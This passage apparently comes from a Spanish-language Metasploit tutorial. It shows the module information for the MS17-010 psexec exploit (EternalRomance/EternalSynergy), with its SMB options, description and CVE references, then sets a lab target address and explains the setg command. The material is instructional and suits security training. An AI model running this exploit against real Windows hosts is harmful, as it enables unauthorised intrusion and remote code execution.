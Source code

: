 ```bash
  SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
  SERVICE_DISPLAY_NAME                                           no        The service display name
  SERVICE_NAME                                                   no        The service name
  SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a nor
                                                                           mal read/write folder share
  SMBDomain             .                                        no        The Windows domain to use for authentication
  SMBPass                                                        no        The password for the specified username
  SMBUser                                                        no        The username to authenticate as

Payload information:
  Space: 3072

Description:
  This module will exploit SMB with vulnerabilities in MS17-010 to 
  achieve a write-what-where primitive. This will then be used to 
  overwrite the connection session information with as an 
  Administrator session. From there, the normal psexec payload code 
  execution is done. Exploits a type confusion between Transaction and 
  WriteAndX requests and a race condition in Transaction requests, as 
  seen in the EternalRomance, EternalChampion, and EternalSynergy 
  exploits. This exploit chain is more reliable than the EternalBlue 
  exploit, but requires a named pipe.

References:
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
  https://nvd.nist.gov/vuln/detail/CVE-2017-0143
  https://nvd.nist.gov/vuln/detail/CVE-2017-0146
  https://nvd.nist.gov/vuln/detail/CVE-2017-0147
  https://github.com/worawit/MS17-010
  https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf
  https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/

Also known as:
  ETERNALSYNERGY
  ETERNALROMANCE
  ETERNALCHAMPION
  ETERNALBLUE
```

### Especificación de objetivo

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
```
Además, existe la opción `setg`, que especifica las opciones seleccionadas por nosotros como permanentes hasta que se reinicie el programa. Por lo tanto, si estamos trabajando en un host objetivo particular, podemos usar este comando para establecer la dirección IP una vez y no cambiarla de nuevo hasta que cambiemos nuestro enfoque a una dirección IP diferente.
